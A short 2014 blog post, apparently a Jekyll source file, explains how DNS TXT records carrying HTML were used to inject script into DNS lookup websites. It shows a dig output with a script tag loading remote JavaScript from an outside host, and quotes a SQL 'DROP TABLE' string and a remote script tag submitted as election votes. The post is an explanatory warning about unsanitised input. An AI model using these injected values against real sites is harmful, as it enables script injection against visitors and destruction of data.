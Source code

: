 ```yaml
---
disqus: true
layout: post
title:  XSS with DNS TXT records
date:   2014-09-19
categories: security
---
```


Last night I ran into a clever little exploit using XSS (Cross site scripting
for you newbies, [Wikipedia](http://en.wikipedia.org/wiki/Cross-site_scripting) )
has a whole article about it).

DNS has multiple record types. A (direct IP pointing), NS (name server settings), MX (e-mail config)
and CNAME (replicate another host) being a few of the more common ones.

And then we have the TXT records. They can be used for almost everything,
and are commonly used to verify sites on google and set extra e-mail headers
for verifying that you own a domain for example.

And now a guy named Jamie Hankins thought that this may be used for doing some
clever stuff. Specifically to all those sites that display your DNS data and
earn money on ads.

Here are an extract from Jamie's DNS records:

{% highlight ruby %}
dig jamiehankins.co.uk txt

;; ANSWER SECTION:
jamiehankins.co.uk.	299	IN	TXT	"google-site-verification=nZUP4BagJAjQZO6AImXyzJZBXBf9s1FbDZr8pzNLTCI"
jamiehankins.co.uk.	299	IN	TXT	"v=spf1 include:spf.mandrillapp.com ?all"
jamiehankins.co.uk.	299	IN	TXT	"<script src='//peniscorp.com/topkek.js'></script>"
jamiehankins.co.uk.	299	IN	TXT	"<iframe width='420' height='315' src='//www.youtube.com/embed/dQw4w9WgXcQ?autoplay=0' frameborder='0' allowfullscreen></iframe>"
{% endhighlight %}

As you can see he gives you back a few TXT records. One of them includes an
embedded version of the Harlem Shake video and a suspect javascript.

This is not an error in the DNS protoctol. They should be able to handle text
like that. The problem lies with the DNS tool websites that display this without
treating it as text - and simply embedding it on their site. The snippets above
gets evaluated as HTML and you can rick-roll (Harlem-shake?) everyone.

Here is an example (may be fixed when you read this)
[who.is/dns/jamiehankins.co.uk](http://who.is/dns/jamiehankins.co.uk)

## What can we learn from this?

Never expect external data to be safe. I know it is easy to overlook things
like this. I mean, DNS records are supposed to be _safe and boring_, right?

XSS exploits are used in the most strange places. For example, in the last two
Swedish Elections there have been more or less serious attempts to vote for
parties like

{% highlight html %}
'; DROP TABLE votes'
{% endhighlight %}

and

{% highlight html %}
script src="example.org/malware.js"
{% endhighlight %}

Sanitize your inputs, boys and girls.
